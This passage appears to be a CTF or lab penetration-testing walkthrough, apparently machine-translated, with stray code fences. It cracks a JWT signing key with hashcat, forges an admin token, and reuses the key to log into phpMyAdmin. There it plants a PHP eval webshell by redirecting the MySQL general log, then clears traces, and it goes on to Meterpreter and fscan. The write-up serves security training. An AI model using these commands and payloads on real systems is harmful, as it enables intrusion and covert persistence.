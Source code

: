 ````sql
![](./images/14.png)

Get `flag1` in the `C:\Users\Administrator` directory.

![](./images/15.png)

Then, an attack was carried out on the `WEB` service open to `Server-Web2`. The website name is `JWT`, which is used to catch packets. After logging in with the `demo` user, it found that there is `X-token`.

![](./images/16.png)

Use `hashcat` to try to explode the key of `HMACSHA256` and get the key as `Qweasdzxc5`.

```bash
hashcat -m 16500 jwt.txt -a 0 rockyou.txt
```

![](./images/17.png)

Using the blasted key, I successfully logged in as an admin user after forging the `JWT`, but after logging in, I found no available points.

![](./images/18.png)

![](./images/19.png)

After scanning the background, I found that there is a `phpmyadmin4.8.5` directory, the user name and password are `root`/`Qweasdzxc5`, and the log writing is used to getshell`.

````sql
# Check if there is direct write permission
show global variables like '%secure_file_priv%';

# Check log file status
show global variables like "%genera%";

# Turn on logging
set global general_log='on';

# Export the specified directory of the log file
set global general_log_file='C:\\phpstudy_pro\\WWW\\h3.php';

# Write a word directory
select '<?php @eval($_REQUEST["cmd"]);?>';

# Clean the trace, modify the original path and close the record
set global general_log_file='original path';
set global general_log=off;
```

Connect the ant sword and directly get the `nt authority\system` permission. In the `C:\Users\Administrator\Desktop\flag03.txt` file, you can get the `flag3` flag3`.

![](./images/20.png)

![](./images/21.png)

Check the network information and find that there is a domain environment.

![](./images/22.png)

Still, go online `MSF` first, and then upload `fscan` to collect network segment information.

````
